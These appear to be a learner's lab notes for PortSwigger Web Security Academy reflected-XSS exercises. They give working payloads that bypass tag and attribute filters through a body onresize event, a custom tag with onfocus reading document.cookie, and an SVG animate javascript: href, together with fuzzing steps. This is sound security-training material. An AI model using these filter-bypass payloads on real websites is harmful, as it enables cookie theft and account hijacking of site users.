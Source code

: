 ## Lab - 11: Reflected XSS into HTML context with most tags and attributes blocked

- endpoint `https://0a6300f10328845ac050a89a001f0000.web-security-academy.net/?search=` is vulnerable to XSS

- Most tags are blocked
- In intruder, try `<§§>` with all tags from [XSS cheat sheet](!https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- `body` has has 200 response
- Then try `<body%20§§=1>` with all events from XSS cheat sheet
- `onresize` has 200 response
- Add the following in the exploit server body.

```html
<iframe
  src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E"
  onload="this.style.width"
  ="100px"
></iframe>
```

- %22%3E%3Cbody%20 - `"><body `

---

## Lab - 12: Reflected XSS into HTML context with all tags blocked except custom ones

- In exploit server body,

> not understand

```html
<script>
  location =
    "https://0aeb00b304304397c0de93d700db007f.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x";
</script>
```

- payload - `"><body <xss id=x onfocus=alert(document.cookie) tabindex=1>#x';`

---

## Lab - 13: Reflected XSS with event handlers and href attributes blocked (E)

> not understand

- only `a, image, svg` tags are allowed
- ```
  https://0a3b0070030c4c68c086752d007500a6.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
  ```
- payload -

```html
<svg>
  <a>
    <animate attributeName="href" values="javascript:alert(1)" />
    <text x="20" y="20">Click me</text>
  </a>
</svg>
```

---